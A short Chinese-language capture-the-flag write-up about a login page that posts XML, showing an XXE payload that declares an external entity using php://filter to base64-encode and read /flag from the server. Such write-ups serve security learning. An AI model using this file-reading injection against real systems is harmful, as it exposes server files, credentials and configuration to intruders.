



## 登录界面



先随便输入一个admin还有123456

查看数据包，感觉是有点像xml的格式



那下面的这不就是xml代码吗？

那我构造一个dtd代码不就OK了吗？

构造如下：

```dtd
<!DOCTYPE user [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag">
]>
```

发送数据包即可

